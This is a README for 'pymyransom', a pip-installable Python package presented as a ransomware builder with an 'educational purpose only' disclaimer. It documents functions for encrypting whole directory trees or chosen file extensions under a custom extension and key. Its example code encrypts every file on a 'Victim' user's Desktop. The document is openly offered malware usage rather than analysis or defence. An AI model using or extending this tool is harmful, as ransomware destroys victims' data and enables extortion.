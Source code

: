 # Pymyransom

## New in v0.4
Updated description

## Before Introducing

PYMYRANSOM **ONLY** CAN BE USED FOR EDUCATIONAL PURPOSE!!!

## What is Pymyransom?

Pymyransom is inspired by https://github.com/marcosValle/RansPy/blob/master/enc.py, I changed this code for making Ransomwares.

## How to install Pymyransom?

To install pymyransom, please type 
```pip install pymyransom```.

## How to use Pymyransom?

### makeMyRansomware

Usage : ransomware_name = makeMyRansomware(your_extension, key, username, passFile)\
\
your_extension = ".Example" : Encryption Extension\
key = b'keyfor16bytes123' : Binary key for encryption\
username=getpass.getuser() : PC's username\
passFile=None : Pass a specific file

### Encryptor

Usage : ransomware_name.Encryptor(startPath)\
startPath : Path to encrypt

### Decryptor

Usage : ransomware_name.Decryptor(startPath)\
\
startPath : Path to decrypt

### Encrypt_Some_Ext

Usage : ransomware_name.Encrypt_Some_Ext(startPath)

Encrypts only extensions in extlist.\
\
startPath : Path to encrypt some extensions\
extlist=[".txt", ".mp3"] : Extensions for encryption

### Decrypt_Some_Ext

Usage : ransomware_name.Decrypt_Some_Ext(startPath)

Decrypts only extensions in extlist.\
\
startPath : Path to encrypt some extensions\
extlist=[".txt", ".mp3"] : Extensions for encryption

### Example Code

```python
import pymyransom
Victim = pymyransom.makeMyRansomware(your_extension=".Example")
startpath = 'c:\\Users\\'+Victim.username+'\\Desktop\\**' #Used glob to encrypt all files
Victim.Encryptor(startpath)
```

## Special Thanks
https://github.com/marcosValle/, https://github.com/kevin5871/, And you!

